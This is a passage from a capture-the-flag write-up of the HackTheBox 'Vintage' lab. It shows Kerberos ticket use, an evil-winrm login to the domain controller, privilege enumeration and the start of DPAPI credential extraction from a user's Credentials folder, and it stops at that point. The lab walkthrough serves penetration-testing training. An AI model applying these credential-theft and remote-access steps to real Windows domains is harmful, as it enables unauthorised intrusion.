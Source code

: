 ```

export KRB5CCNAME=c.neri.ccache
```
we cannot login just yet, we need to edit our /etc/krb5.conf for a `[realms]` section which will look like this 
```
[realms]
  VINTAGE.HTB = {
    kdc = 10.10.11.45
  }
```
we can now try to login 
```
evil-winrm -i dc01.vintage.htb -r vintage.htb
```
and we logged in get user flag 
```
*Evil-WinRM* PS C:\Users\C.Neri\Desktop> type user.txt
fd75f1095d59456f2775fff2ccf92741
```
we can run whoami /user 
```
whoami /user

USER INFORMATION
----------------

User Name      SID
============== ==============================================
vintage\c.neri S-1-5-21-4024337825-2033394866-2055507597-1115

```
then run whoami /priv
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
we will be exploiting DPAPI (Data Protection API) which is a cryptographic API in Windows operating systems that is designed to protect sensitive data, such as password, private keys, credentials, etc. It provides applications with the ability to encrypt and decrypt data, while hiding complex encryption operations and simplifying the encryption process. DPAPI is designed to ensure that only the current user or system can access the encrypted data. 

 How DPAPI works
- **Encryption** : When an application or Windows system needs to store sensitive information, it can encrypt the data through DPAPI. Encryption uses the user's login credentials (such as the user's login password or the computer's key) to generate an encryption key.
- **Decryption** : DPAPI can only decrypt data using the same key in the same user context. This way, if an application or service tries to access encrypted credentials or data, only the currently logged on user or administrator can decrypt and access the information.
- **Security** : DPAPI is based on account authentication information in the Windows operating system, so its encryption key is closely associated with the user's login credentials, ensuring that only specific users can access their own encrypted data.
Here we use DPAPI to obtain windows identity credentials 
```
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> dir -h
 
 
```